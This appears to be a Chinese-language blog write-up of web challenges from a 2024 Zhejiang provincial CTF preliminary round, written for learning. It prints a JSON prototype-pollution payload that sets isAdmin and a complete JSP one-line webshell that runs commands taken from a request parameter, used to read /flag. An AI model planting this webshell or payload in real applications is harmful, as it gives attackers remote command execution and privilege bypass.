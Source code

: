 # 2024 浙江省省赛初赛-WEB


# 2024 浙江省省赛初赛-WEB

## easyjs

&gt; [!TIP]
&gt;
&gt; 原型链污染简单应用

给了源码，提示是原型链污染漏洞

&gt; 源码找不到了，先用一下队里web大师傅的

![image-20241105164442279](https://asal1n.github.io/img/image-20241105164442279.png)

点名了原型链污染

通过POST方法到/api/notes一段JSON信息，可以修改isAdmin属性

POST传参到/api/notes

```
{
	&#34;id&#34;:&#34;1&#34;,
	&#34;__proto__&#34;:{
		&#34;isAdmin&#34;:&#34;1&#34;
	}
}
```

通过创建id=1的笔记，修改其属性的isAdmin值使其为1。

这个时候id=1的isAdmin被污染

通过访问flag页面得flag

```
/api/flag?note-id=1
```

## hack memory

&gt; [!TIP]
&gt;
&gt; 内存马的使用

dirsearch直接扫一下

发现有/shell/执行命令

直接上传一句话木马

```
&lt;% 
	java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(&#34;cmd=&#34;)).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print(&#34;&lt;pre&gt;&#34;);
    while((a=in.read(b))!=-1){
    	out.println(new String(b,0,a));
    }
    out.print(&#34;&lt;/pre&gt;&#34;);
%&gt;
```

然后直接GET传参cmd来执行命令得到flag

```
/uploads/shell.jsp?cmd=cat /flag
```

## QL_again

&gt; [!TIP]
&gt;
&gt; QL表达式注入

待更新……

作者还在学😥😥

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-2024-%E6%B5%99%E6%B1%9F%E7%9C%81%E7%9C%81%E8%B5%9B%E5%88%9D%E8%B5%9B-web/  

